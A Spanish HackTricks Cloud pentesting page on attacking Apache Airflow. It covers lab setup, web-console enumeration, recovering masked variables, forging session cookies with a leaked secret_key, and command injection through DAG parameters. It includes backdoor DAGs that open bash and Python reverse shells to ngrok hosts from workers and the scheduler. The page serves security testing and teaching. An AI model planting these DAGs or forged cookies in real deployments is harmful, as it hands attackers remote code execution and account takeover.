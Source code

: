 # Seguridad de Apache Airflow

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

### Información Básica

[**Apache Airflow**](https://airflow.apache.org) sirve como una plataforma para **orquestar y programar tuberías de datos o flujos de trabajo**. El término "orquestación" en el contexto de las tuberías de datos significa el proceso de organizar, coordinar y gestionar flujos de trabajo de datos complejos que provienen de diversas fuentes. El propósito principal de estas tuberías de datos orquestadas es proporcionar conjuntos de datos procesados y consumibles. Estos conjuntos de datos son ampliamente utilizados por una multitud de aplicaciones, incluyendo, pero no limitándose a, herramientas de inteligencia empresarial, modelos de ciencia de datos y aprendizaje automático, todos los cuales son fundamentales para el funcionamiento de aplicaciones de big data.

Básicamente, Apache Airflow te permitirá **programar la ejecución de código cuando algo** (evento, cron) **suceda**.

### Laboratorio Local

#### Docker-Compose

Puedes usar el **archivo de configuración de docker-compose de** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) para lanzar un entorno docker completo de apache airflow. (Si estás en MacOS asegúrate de darle al menos 6GB de RAM a la VM de docker).

#### Minikube

Una forma fácil de **ejecutar apache airflow** es ejecutarlo **con minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Configuración de Airflow

Airflow podría almacenar **información sensible** en su configuración o puedes encontrar configuraciones débiles en su lugar:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### RBAC de Airflow

Antes de comenzar a atacar Airflow, deberías entender **cómo funcionan los permisos**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Ataques

#### Enumeración de la Consola Web

Si tienes **acceso a la consola web**, podrías ser capaz de acceder a parte o toda la siguiente información:

* **Variables** (Información sensible personalizada podría estar almacenada aquí)
* **Conexiones** (Información sensible personalizada podría estar almacenada aquí)
* Acceder a ellas en `http://<airflow>/connection/list/`
* [**Configuración**](./#airflow-configuration) (Información sensible como el **`secret_key`** y contraseñas podría estar almacenada aquí)
* Listar **usuarios y roles**
* **Código de cada DAG** (que podría contener información interesante)

#### Recuperar Valores de Variables

Las variables pueden ser almacenadas en Airflow para que los **DAGs** puedan **acceder** a sus valores. Es similar a los secretos de otras plataformas. Si tienes **suficientes permisos**, puedes acceder a ellas en la GUI en `http://<airflow>/variable/list/`.\
Airflow por defecto mostrará el valor de la variable en la GUI, sin embargo, de acuerdo a [**esto**](https://marclamberti.com/blog/variables-with-apache-airflow/), es posible establecer una **lista de variables** cuyo **valor** aparecerá como **asteriscos** en la **GUI**.

![](<../../.gitbook/assets/image (164).png>)

Sin embargo, estos **valores** aún pueden ser **recuperados** a través de **CLI** (necesitas tener acceso a la base de datos), ejecución de **DAG** **arbitrarios**, **API** accediendo al endpoint de variables (la API necesita estar activada), y **¡incluso la propia GUI!**\
Para acceder a esos valores desde la GUI, simplemente **selecciona las variables** que deseas acceder y **haz clic en Acciones -> Exportar**.\
Otra forma es realizar un **bruteforce** al **valor oculto** utilizando el **filtro de búsqueda** hasta que lo obtengas:

![](<../../.gitbook/assets/image (152).png>)

#### Escalación de Privilegios

Si la configuración **`expose_config`** está establecida en **True**, desde el **rol Usuario** y **hacia arriba** pueden **leer** la **configuración en la web**. En esta configuración, aparece el **`secret_key`**, lo que significa que cualquier usuario con esto válido puede **crear su propia cookie firmada para suplantar cualquier otra cuenta de usuario**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE en el trabajador de Airflow)

Si tienes **acceso de escritura** al lugar donde se **guardan los DAGs**, puedes simplemente **crear uno** que te enviará un **reverse shell.**\
Ten en cuenta que este reverse shell se ejecutará dentro de un **contenedor de trabajador de airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE en el programador de Airflow)

Si configuras algo para que sea **ejecutado en la raíz del código**, en el momento de escribir esto, será **ejecutado por el programador** después de un par de segundos de colocarlo dentro de la carpeta del DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### Creación de DAG

Si logras **comprometer una máquina dentro del clúster DAG**, puedes crear nuevos **scripts de DAG** en la carpeta `dags/` y serán **replicados en el resto de las máquinas** dentro del clúster DAG.

#### Inyección de Código en DAG

Cuando ejecutas un DAG desde la GUI, puedes **pasar argumentos** a él.\
Por lo tanto, si el DAG no está correctamente codificado, podría ser **vulnerable a la Inyección de Comandos.**\
Eso es lo que ocurrió en este CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Todo lo que necesitas saber para **comenzar a buscar inyecciones de comandos en DAGs** es que los **parámetros** son **accedidos** con el código **`dag_run.conf.get("param_name")`**.

Además, la misma vulnerabilidad podría ocurrir con **variables** (ten en cuenta que con suficientes privilegios podrías **controlar el valor de las variables** en la GUI). Las variables son **accedidas con**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Si se utilizan, por ejemplo, dentro de un comando bash, podrías realizar una inyección de comandos.

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
